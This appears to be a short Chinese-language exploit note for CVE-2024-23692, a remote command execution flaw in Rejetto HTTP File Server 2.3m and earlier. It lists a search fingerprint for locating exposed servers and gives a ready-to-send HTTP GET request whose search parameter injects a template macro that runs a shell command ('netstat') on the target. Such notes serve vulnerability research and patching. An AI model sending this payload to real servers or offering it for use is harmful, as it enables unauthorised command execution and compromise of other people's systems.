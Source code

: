 # Rejetto HTTP文件服务器search存在命令执行漏洞(CVE-2024-23692)

# 一、漏洞简介
Rejetto HTTP文件服务器是一款免费的、跨平台的、基于Java的轻量级HTTP文件服务器软件。它允许用户通过Web浏览器访问和管理文件，支持上传、下载、删除、重命名、创建目录等操作。  Rejetto HTTP文件服务器 search接口处存在RCE漏洞(CVE-2024-23692)，恶意攻击者可能利用此漏洞执行恶意命令，获取服务器敏感信息，最终可能导致服务器失陷。

# 二、影响版本
+ Rejetto HTTP File Server <= 2.3m

# 三、资产测绘
```http
app="HFS"
```

+ 特征

![1718116518836-b92544c4-a811-4dee-8285-756a066df0ce.png](./img/-gVG0vk06azCeMDZ/1718116518836-b92544c4-a811-4dee-8285-756a066df0ce-300730.png)

# 四、漏洞复现
```java
GET /?n=%0A&cmd=netstat&search=%25xxx%25url:%password%}{.exec|{.?cmd.}|timeout=15|out=abc.}{.?n.}{.?n.}RESULT:{.?n.}{.^abc.}===={.?n.} HTTP/1.1
Host:127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
```

![1718116766397-856eb67d-c89a-4559-a5b4-662267245327.png](./img/-gVG0vk06azCeMDZ/1718116766397-856eb67d-c89a-4559-a5b4-662267245327-686273.png)



> 更新: 2024-06-17 09:34:03  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ksyz94lfputxy1uv>